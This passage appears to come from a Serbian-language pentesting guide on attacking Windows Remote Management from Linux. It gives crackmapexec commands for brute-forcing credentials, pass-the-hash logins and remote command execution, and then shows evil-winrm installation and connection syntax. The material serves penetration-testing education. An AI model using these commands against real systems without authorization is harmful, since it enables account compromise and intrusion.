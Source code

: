 **Najnovije objave**\
Budite informisani o najnovijim pokretanjima nagrada za pronalaženje bagova i važnim ažuriranjima platforme

**Pridružite nam se na** [**Discord-u**](https://discord.com/invite/N3FrSbmwdy) i počnite da sarađujete sa vrhunskim hakerima danas!

## Povezivanje sa WinRM-om u Linuxu

### Brute Force

Budite oprezni, brute force napadi na WinRM mogu blokirati korisnike.

```ruby
#Brute force
crackmapexec winrm <IP> -d <Domain Name> -u usernames.txt -p passwords.txt

#Just check a pair of credentials
# Username + Password + CMD command execution
crackmapexec winrm <IP> -d <Domain Name> -u <username> -p <password> -x "whoami"
# Username + Hash + PS command execution
crackmapexec winrm <IP> -d <Domain Name> -u <username> -H <HASH> -X '$PSVersionTable'
#Crackmapexec won't give you an interactive shell, but it will check if the creds are valid to access winrm
```

### Korišćenje evil-winrm

Evil-winrm je alat koji se koristi za napad na Windows Remote Management (WinRM) servis. Ovaj alat omogućava hakeru da se prijavi na udaljeni Windows sistem i izvršava komande kao privilegovani korisnik.

Da biste koristili evil-winrm, prvo morate instalirati Ruby programski jezik i RubyGems. Zatim možete instalirati evil-winrm pomoću sledeće komande:

```
gem install evil-winrm
```

Nakon instalacije, možete se povezati na ciljni sistem koristeći sledeću sintaksu:

```
evil-winrm -i <IP_adresa> -u <korisničko_ime> -p <lozinka>
```

Ovom komandom se uspostavlja veza sa ciljnim sistemom koristeći IP adresu, korisničko ime i lozinku. Nakon uspešne autentifikacije, možete izvršavati komande na ciljnom sistemu.

Evil-winrm takođe podržava opcije kao što su promena direktorijuma, prenos fajlova, izvršavanje skripti i još mnogo toga. Za više informacija o ovim opcijama, možete pogledati dokumentaciju evil-winrm alata.

Važno je napomenuti da je korišćenje evil-winrm alata ilegalno bez dozvole vlasnika sistema. Ovaj alat se koristi u okviru etičkog hakovanja ili pentestiranja sistema uz dozvolu.

```ruby
gem install evil-winrm
```
